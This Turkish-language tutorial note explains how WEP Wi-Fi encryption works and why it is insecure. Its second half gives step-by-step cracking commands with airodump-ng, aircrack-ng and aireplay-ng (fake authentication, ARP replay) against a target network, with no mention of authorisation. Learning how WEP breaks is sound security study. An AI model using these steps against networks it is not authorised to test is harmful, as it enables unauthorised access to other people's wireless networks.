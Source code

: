- Wifi ağları **WEP** ve **WPA/WPA2** ile şifreleme algoritmaları ile korunur.
---
## 🔐 WEP (Wired Equivalent Privacy) Nedir?

WEP, kablosuz ağları korumak için geliştirilen **eski** bir şifreleme sistemidir. Amaç: 📡 Wi-Fi'yi, kablolu ağlar kadar güvenli yapmak.

---

### 🧠 Nasıl Çalışır?

#### 1. 🔒 Şifreleme Türü: **RC4**
- WEP, verileri **RC4** adlı simetrik bir algoritmayla şifreler.

#### 2. 🧩 Anahtar Yapısı
- İki tür anahtar vardır:
  - **64 bit** (40 bit gizli + 24 bit IV)
  - **128 bit** (104 bit gizli + 24 bit IV)
- **IV (Initialization Vector)**: 📦 Her veri paketine özel küçük bir sayı (24 bit)
- **IV + gizli anahtar = RC4 anahtarı**

#### 3. 🔁 Şifreleme Süreci
1. Veri alınır. 📄  
2. Sonuna hata kontrol için bir şey eklenir: **ICV (CRC-32)** ✅  
3. IV + anahtar → RC4 → 🔐 Şifreleme akışı oluşturur  
4. Veri + ICV, bu akışla **XOR**'lanır  
5. Sonuç = Şifreli veri + IV → 📡 Gönderilir

#### 4. 📥 Alıcı Ne Yapar?
1. IV'yi alır + gizli anahtarla RC4 akışı oluşturur  
2. XOR işlemiyle şifreyi çözer 🔓  
3. ICV kontrolüyle verinin bozulup bozulmadığını anlar ✅

---

### ⚠️ WEP Neden Güvensiz?

| Sorun | Açıklama |
|------|----------|
| 🔁 IV çok kısa | 24 bit → sık tekrar eder → kırılabilir |
| 🎲 IV rastgele değil | Sıralı olabilir → tahmin edilebilir |
| 🧨 RC4 kötü kullanılır | Zayıf anahtar oluşturur |
| 🧪 Kolay kırılır | Paketler toplanır → şifre dakikalar içinde çözülür (örn: aircrack-ng) |

---

### ✅ Ne Kullanmalı?

WEP yerine:  
- **🔐 WPA**  
- **🛡️ WPA2**  
- **🧬 WPA3** gibi daha güvenli protokoller kullanın.

---

## 🧨 WEP Kırma

### 1. 📡 Modemi Dinleme
- `airodump-ng` ile hedef ağı dinle:
  ```bash
  airodump-ng (interface)
  ```
- Ekrandaki hedef modem bilgilerini (BSSID ve kanal) not al.

### 2. 📥 Paket Toplama ve Şifreyi Kırma
- Dinleme sırasında `.cap` uzantılı bir dosya oluşur.
- Bu dosyayla şu komutu çalıştır:
  ```bash
  aircrack-ng dosya.cap
  ```
- 🗝️ Şifre doğrudan terminalde görünür!

⚠️ **Not:** Bu işlemin çalışması için ağda **aktif trafik** olması gerekir.

---

## 🕵️‍♂️ Fake Authentication (Sahte Kimlik Doğrulama)

Ağda yeterli trafik yoksa kendin oluşturabilirsin. İşte adımlar:

### 🔐 1. Sahte Bağlantı Kurma
```bash
aireplay-ng --fakeauth 0 -a (BSSID) -h (Wi-Fi kart MAC) (interface)
```
- 📡 Modeme sahte bir şekilde bağlanır.
- MAC adresini öğrenmek için:
  ```bash
  ip addr
  ```

### 🔁 2. ARP Replay ile Trafik Oluşturma
```bash
aireplay-ng --arpreplay -b (BSSID) -h (Wi-Fi kart MAC) (interface)
```
- 💣 Modemde **sahte veri trafiği** oluşturur.
- Bu sayede şifreleme kırılabilir hale gelir.
